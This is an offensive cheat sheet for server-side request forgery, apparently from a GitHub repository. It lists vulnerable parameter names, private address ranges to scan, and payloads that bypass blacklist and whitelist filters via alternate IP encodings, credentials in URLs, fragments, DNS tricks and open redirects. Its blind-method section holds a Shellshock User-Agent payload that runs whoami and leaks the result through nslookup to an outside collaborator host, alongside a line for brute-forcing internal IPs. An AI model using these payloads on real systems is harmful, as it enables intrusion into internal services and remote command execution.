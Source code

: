 ## Index:

1. [SSRF Vulnerability Overview](#ssrf)
2. [Common SSRF Endpoints](#common-ssrf-endpoints)
3. [Tips](#tips)
   - [Port and Path Exploitation](#port-and-path-exploitation)
   - [File Uploads](#file-uploads)
   - [Internal Private IPv4 Networks](#internal-private-ipv4-networks)
4. [Common Method (API Parameter)](#common-method-api-parameter)
5. [Blind Method](#blind-method)
   - [Using Burp Collaborator in Referer Header](#using-burp-collaborator-in-referer-header)
   - [Shellshock Exploitation via SSRF](#shellshock-exploitation-via-ssrf)
6. [Bypassing Common SSRF Defenses](#bypassing-common-ssrf-defenses)
   - [SSRF with Blacklist-Based Input Filters](#ssrf-with-blacklist-based-input-filters)
   - [SSRF with Whitelist-Based Input Filters](#ssrf-with-whitelist-based-input-filters)
     - [Embedding Credentials in a URL](#embedding-credentials-in-a-url)
     - [Using URL Fragment for Bypass](#using-url-fragment-for-bypass)
     - [DNS Naming Hierarchy Bypass](#dns-naming-hierarchy-bypass)
   - [Bypassing SSRF Filters via Open Redirection](#bypassing-ssrf-filters-via-open-redirection)

## SSRF
This vulnerability helps attacker to send request to back-end systems. To learn >> https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf

## Common SSRF Endpoints
```
dest=
path=
window=
next=
site=
reference=
data=
load=
html=
validate=
page=
return=
callback=
domain=
feed=
view=
dir=
request-baskets=
dict=
pdf=
file=
imageuri=
url=
key=
.json=
oauth=
redirect=
api=
dashboard=
config.=
```
### Tips
1. Try with port number, path.
2. File uploads: instead of uploading a file, try sending a URL and see if it downloads the content of the URL. Example: https://hackerone.com/reports/713
3. If you do want to look for internal services, here’s a list of private IPv4 networks that you could scan for services:

    10.0.0.0/8

    127.0.0.1/32

    172.16.0.0/12

    192.168.0.0/16
## Common method api parameter
```txt
http://localhost/
http://127.0.0.1/
```
## Blind Method
#### Just place burpcollaborator server in referer header
```txt
Referer: http://burpcollaborator.net
```
#### Shellshock exploitation via SSRF
```txt
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).3kobqoj8uv6qbwwlkaf5cvzr1i79v0jp.oastify.com >> Change Uger-Agent info
Referer: http://192.168.0.$1$:8080 >> Bruteforce the ip
```
## Bypassing common SSRF defenses
_____________________________________
### SSRF with blacklist-based input filters
```txt
http://127.1
http://2130706433
http://017700000001
http://127.0.0.1:21/?%0A >> You can change port number if needed.
http://[::]:80/ 
http://spoofed.burpcollaborator.net
```
### SSRF with whitelist-based input filters
#### You can embed credentials in a URL before the hostname, using the @ character. For example:
```txt
    https://expected-host:fakepassword@evil-host
    https://expected-host:fakepassword@burpcollaborator.net
```
#### You can use the # character to indicate a URL fragment. For example:
```txt
    https://evil-host#@expected-host
    https://burpcollaborator.net#@google.com
```
Double URL-encode # to %2523.
#### You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```txt
    https://expected-host.evil-host
    https://google.com.burpcollaborator.net
```
### Bypassing SSRF filters via open redirection
#### For example, the application contains an open redirection vulnerability in which the following URL (http://evil-user.net):
```txt
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
#### You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 
```txt
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
